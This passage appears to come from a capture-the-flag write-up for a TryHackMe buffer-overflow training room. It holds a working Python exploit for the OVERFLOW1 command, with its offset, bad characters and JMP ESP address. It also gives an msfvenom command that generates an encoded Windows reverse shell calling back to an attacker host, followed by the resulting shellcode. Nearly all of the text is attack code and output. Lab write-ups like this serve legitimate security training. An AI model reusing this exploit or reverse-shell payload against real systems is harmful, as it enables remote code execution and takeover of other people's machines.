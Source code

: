 Identified the desired op-codes

```python
#!/usr/bin/python
import socket

ip = '10.10.208.211'
port = 1337

# bad-chars \x00\x07\x2e\xa0

cmd = "OVERFLOW1 /.:/"
crash = 5000
offset = "A" * 1974
EIP = "\xAF\x11\x50\x62" # 625011AF   FFE4             JMP ESP
filler = "C" * (crash - (len(offset) + len(EIP) ))

payload = cmd + offset + EIP + filler

print "Fuzzing with %s bytes" % len(payload)
try:
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect=s.connect((ip,port))
        s.recv(1024)
        s.send(payload)
        s.close()
except:
        print "\nCould not connect!"
```

## Generate the reverse shell

```bash
┌──(kali㉿kali)-[~/CTFs/THM/Buffer-Overflow-Prep/oscp.exe-1]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.8.185.241 LPORT=10099 -e x86/shikata_ga_nai -i 3 -f py -b '\x00\x07\x2e\xa0' EXITFUNC=thread
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai succeeded with size 378 (iteration=1)
x86/shikata_ga_nai succeeded with size 405 (iteration=2)
x86/shikata_ga_nai chosen with final size 405
Payload size: 405 bytes
Final size of py file: 1983 bytes
buf =  b""
buf += b"\xdb\xd1\xd9\x74\x24\xf4\xba\x2f\xa4\x75\x5d\x58\x29"
buf += b"\xc9\xb1\x5f\x31\x50\x19\x03\x50\x19\x83\xe8\xfc\xcd"
buf += b"\x51\xca\x04\x03\x33\x38\x6d\xfc\x9a\x37\xb5\xf6\x45"
buf += b"\x8b\x7c\x47\x2d\xda\x06\xb2\x4d\xf4\x0b\xbf\x29\x14"
buf += b"\x16\x13\x01\x75\x02\x51\x5b\xfd\xf6\x03\x1f\xdd\x43"
buf += b"\x32\xf6\x37\x71\x13\xed\x98\xbe\x7d\x56\x44\xfc\xb2"
buf += b"\x6a\x1c\x57\xc8\xd5\x23\xd2\x0d\xc6\x6b\x81\x76\x15"
buf += b"\x67\xcd\x3c\xf9\x18\x05\x8b\xe4\x46\x46\x21\xec\x93"
buf += b"\x34\x83\xdb\x9b\x6e\xe8\xde\x3d\xe7\x51\x86\x03\x08"
buf += b"\x04\xca\xaa\x55\xd4\x2c\x56\x58\xf1\x25\x30\x51\x89"
buf += b"\xc7\x08\x84\x51\xf2\xfc\x33\xda\x26\x84\x06\xa9\x2f"
buf += b"\x5b\xa6\x91\xcc\x64\xfb\xc2\x3f\xb7\x75\xed\x47\xf0"
buf += b"\x27\x0a\x6c\x25\x51\x10\x3a\x44\x46\xc6\xbe\xbd\x79"
buf += b"\xe4\x56\x9c\x92\x69\x51\x44\xf6\x53\x92\x13\x45\xcc"
buf += b"\xea\x7f\x54\x45\xcf\x08\x12\xa8\x3b\x62\xf3\x3a\x7b"
buf += b"\xba\x40\xe1\xe2\x21\x8f\xdb\xc0\xb9\xb5\x5f\x35\x41"
buf += b"\xa5\x2d\x43\x41\x1d\x5e\x39\x66\x71\x6b\xcf\x30\x59"
```